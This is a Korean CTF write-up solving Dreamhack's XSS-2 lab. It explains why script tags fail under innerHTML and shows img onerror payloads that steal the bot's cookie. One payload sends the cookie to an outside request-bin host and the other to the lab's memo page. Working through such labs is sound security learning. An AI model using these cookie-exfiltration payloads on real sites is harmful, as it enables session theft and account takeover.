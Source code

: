 문제
==
![1](https://user-images.githubusercontent.com/73854324/158143422-bb2f57fa-da04-4175-badb-b72320312bfe.png)
<br>
==
문제를 풀어보고 나니, 다른 방법이 생각나서 추가한다.   
밑으로 쭉쭉 내려서 처음에 푼 방법을 먼저 보면 이해가 더 잘 된다.   
<br><br>
![1](https://user-images.githubusercontent.com/73854324/158157258-6ca79698-05c7-4ddf-8682-8f3f38e8b651.png)<br>
코드를 보면, 우리는 먼저 flag 페이지에 POST 방식으로 요청을 보낸다.   
그 후 check_xss 함수가 실행된다. (뒤 코드를 보면 결과를 알겠지만, 쿠키 값이 없다면 wrong?? 이 뜰 것이다.)   
<br><br>
![2](https://user-images.githubusercontent.com/73854324/158157261-40fe18a6-5f29-481a-9b29-9d59aa61071c.png)<br>
check_xss 함수의 내용은 이러하다.(이미지 하단 부분)   
입력받은 파라미터와 쿠키값을 가지고, read_url 함수를 통해서 flag 값을 가진 봇이 링크에 접속한다.   
read_url 함수에서는 웹드라이버를 통해서 flag 값을 쿠키로 가진 채 해당 url에 접속하게 된다.   
<br><br>
그렇다면, 봇이 쿠키값을 가진 채 접속하게만 하고 요청 헤더의 쿠키값만 확인하면 된다.   
<br><br>
dreamhack 사이트 내에는, 여러 툴들이 존재한다.   
<br><br>
![0](https://user-images.githubusercontent.com/73854324/158157253-84b4ea82-9f9a-4c46-8ed8-262b75b1cc55.png)<br>
https://tools.dreamhack.games/main   
해당 링크 내 Request Bin 은, 임의로 웹서버를 만든 것처럼 가상으로 방문자들의 정보를 알 수 있다.   
이 웹서버로 봇이 쿠키값을 가지고 접속하게만 하면 된다.   
실전으로 옮겨보았다.   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158157265-09b9806a-d126-4797-87d3-c5da739aac5c.png)<br>
할당받은 url은 https://qwtdbvz.request.dreamhack.games 이다.   

```
https://qwtdbvz.request.dreamhack.games?document.cookie
```

<br>
이 곳으로 접속하면, 쿠키값을 가진채로 그냥 봇이 접속 할 것 같다.   
vuln 페이지에서 xss 공격을 하기 위해서는 img 태그를 사용했었다.   
![4](https://user-images.githubusercontent.com/73854324/158157266-0a9455a1-546c-495e-a932-baa8d02926c3.png)<br>

```
<img src="/" onerror="location.href='https://qwtdbvz.request.dreamhack.games?'+document.cookie">
```

<br>
바로 주입시켜보았다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158157269-8eec9af3-e3c1-4374-bd93-f78c7ac9aa57.png)<br>
요청 값으로 쿠키가 들어있다.   
<br><br><br><br><br><br>
처음에 푼 방법
==
![2](https://user-images.githubusercontent.com/73854324/158143428-737e818b-03ad-464e-aa1e-a697459697fa.png)<br>
메인페이지는 뭐.. xss-1 이랑 다를 바 없었다.   
(심지어 XSS-2 문제인데도, XSS-1 이라 적힌 것 까지)   
<br><br>
![3](https://user-images.githubusercontent.com/73854324/158143430-0e9b3f14-7553-4158-b43a-4411dbb9718b.png)<br>
xss-1 문제를 풀어보았으니, 바로 vuln 페이지로 들어갔는데,   
제대로 스크립트가 param 으로 전달되었음에도 팝업창이 뜨지 않았다.   
<br><br>
![4](https://user-images.githubusercontent.com/73854324/158143433-127f17f5-fcad-4944-89eb-3c1b90461149.png)<br>
note 페이지로 들어갔다.   
딱히 xss-1 문제랑은 다를 바 없어보인다.   
<br><br>
![5](https://user-images.githubusercontent.com/73854324/158143436-f3482d1a-6b92-43f5-bbc0-897f7b8fd830.png)<br>
flag 페이지 역시 마찬가지.   
<br><br>
![6](https://user-images.githubusercontent.com/73854324/158143440-12a9c843-0fc8-464a-acea-0eb97ef6fb7c.png)<br>
먼저 스크립트가 먹히지 않는 vuln 페이지의 소스를 살펴보았다.   
찾아보니, URLSearchParams 객체는, URL(GET방식) 로 파라미터를 받을 때 ? 뒤에 적히게 되는데   
? 를 제외한 파라미터 값들을 수정하거나 확인? 등 여러 용도로 사용할 수 있다고 한다.   
그리고 내 눈에 띄었던 점은, innerHTML 이었다.   
<br><br>
![7](https://user-images.githubusercontent.com/73854324/158143444-e45def26-b631-4764-a7db-db36e3565a10.png)<br>

```
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0
```

innerHTML 을 사용할 경우, <script> 구문이 먹혔기 때문에 HTML5 로 들어오면서 막혔다고 한다.   
innerHTML 과 비슷한 용도로 사용할 수 있는 innerText, textContent 가 있었다.   
<br>
대충 잠깐 정리해보자면,   
textContext 는 원시 텍스트(only 텍스트)만 결과물로 출력된다.   
innerText 는 html 태그들이 적용되지 않고 보이는 텍스트들만 결과물로 출력된다.   
innerHTML 는 html 태그들이 모두 포함되어 결과물로 출력된다.   

```
3가지 차이점에 대해 포스팅해놓으신 글
https://hianna.tistory.com/483
```

## 아무튼 XSS 스크립트를 실행시키기 위해서는 script 를 사용하지 않고 해야한다는 것을 알았다   
![8](https://user-images.githubusercontent.com/73854324/158143448-d5cb401e-7d48-4e52-9b85-aa3441f3e877.png)<br>
그렇다면, 전에 잠깐 알고있었던 img 태그의 onerror 속성을 이용해보기로 했다.   
보통 img src 에 파일명을 적는데, 없을만한 파일명을 적어주면 흔히 '엑박' 이 뜬다.   
이렇게 오류가 발생했을 경우, onerror 내부의 명령이 실행된다.   
<br><br>
![9](https://user-images.githubusercontent.com/73854324/158143449-1d3c4348-429a-43ac-ad05-eb4d5a832e39.png)<br>
onerror 를 이용해서 alert 창의 실행을 성공했다.   
그렇다면, onerror 내부에 xss 스크립트를 넣어준다면 쿠키를 탈취할 수 있을 것이다.   
<br><br>
![10](https://user-images.githubusercontent.com/73854324/158143450-da728bc0-1620-4bcf-8169-f4b0113832cb.png)<br>
```
주입 구문
<img src="/" onerror="location.href='/memo?memo='+document.cookie">
```


![11](https://user-images.githubusercontent.com/73854324/158143451-5c204d54-62b0-46d1-bdbe-0da2926dad37.png)<br>
성공적으로 되었다.   
이제 memo 페이지로 돌아가서 쿠키값을 확인해보자.   
(쿠키값에 flag 가 저장되어있고, 제대로 탈취되었는지 보러 가보자)   
<br><br>
![12](https://user-images.githubusercontent.com/73854324/158147825-c431f741-929f-4c49-8027-9f46f26f8dee.png)<br>
flag 값 획득 성공